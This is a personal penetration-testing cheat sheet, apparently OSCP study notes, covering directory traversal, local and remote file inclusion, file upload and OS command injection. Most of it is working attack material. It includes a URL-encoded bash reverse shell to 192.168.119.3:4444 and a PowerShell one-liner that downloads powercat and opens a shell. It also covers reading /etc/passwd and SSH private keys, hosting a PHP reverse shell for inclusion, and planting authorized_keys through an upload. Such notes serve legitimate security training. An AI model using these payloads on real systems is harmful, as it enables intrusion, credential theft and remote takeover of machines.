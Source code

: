 # Directory traversal

- Get username 
    
    ``` /etc/passwd ```

- Exploit directory traversals: Get ssh key

    ``` /home/{username}/.ssh/id_rsa
    vim key
    chmod 400 dt_key
     ```
    
-  Window: 
   ``` C:\Users\All Users\ssh\ssh_host_rsa_key.pub  ```

- Encoding special character
    
    e.g. . -> %2f 

- cgi-bin vuln

- Encoding not a must

# File Inclusion Vuln

- Loading a file and attach CMD

- Reverse shell & web shell
## Interesting Arguments
1. ``` powershell.exe -EncodedCommand {base64 command} ```

## Local File Inclusion LFI
### Auto smash LFI
- https://github.com/D35m0nd142/LFISuite 
### For loop get linux process by LFI
- edit the path
- ```
  for i in $(seq 0 2000); do echo -n "$i:"; curl google.com/wp-content/plugins/filter.php?url=../../../../../../../../../../../proc/$i/cmdline --output -;echo; done
  ```

- Header poison URL may differs from Log Poisoning 
- TCP reverse shell one-liner
  ``` bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 ```
1. try find useful password after /etc/passwd for opening services (you scanned!) e.g. redis have rce -> go get ``` /etc/redis/redis.conf ```
2. can use it to priv esc too! -> creating a rogue php inside the file system and load it e.g. /run/redis/test.php || CHECK ALL WRITABLE PATH!!c
3. See the source code of the web! e.g. index.php, main.py
### Interesting file path
1. Service configuration files
2. leaked db file path e.g. /var/db/mydb <- this is sqlite
3. oscp cheat sheet listed files
4. [Windows] Progra~1 = program files | Progra~2 = program files (x86)

### WAF?
1. Only Local host:
- Try adding ``` X-Forwarded-For: 127.0.0.1 ```

## RFI
### Linux
- Host a web server for exposing exploit php 
  e.g. php-reverse-shell.php
  ``` python3 -m http.server 80 ```
- open reverse shell server
    ``` nc -lvnp 4444 ```
- RFI request to the website
  ``` ?page=http://{ip}/php-reverse-shell.php ```
### Windows
- try 80 http server OR
- smbserver 445
- ``` \\kali\test.php ```



# File Upload Vuln
 
## w/ Executable Files
1. Prepare a file that can run CMD
2. Reverse shell
3. file type exclusion e.g. php -> pHP
4. aspx -> mspx  


## w/o Executable Files
1. Generate SSH key: will get id_rsa and id_rsa.pub 

    ``` ssh-keygen ```

2. Edit filename of ``` id_rsa.pub ``` to ``` authorized_keys ```

3. Upload to the file to /home/{user}/.ssh OR /root/.ssh

4. Login with ssh ``` ssh emilia@ip -i -id_rsa ```

- Becareful have to remove ```.ssh/known_hosts``` in kali pc since different section computer


# OS Cmd injection

- Check which command is allow which is not, then use ``` & ``` to piggyback it


- Windows oneliner get vuln file & reverse shell
``` IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell  ```

- exploitable could be ``` ;  && ```
- remember to encode url sometimes
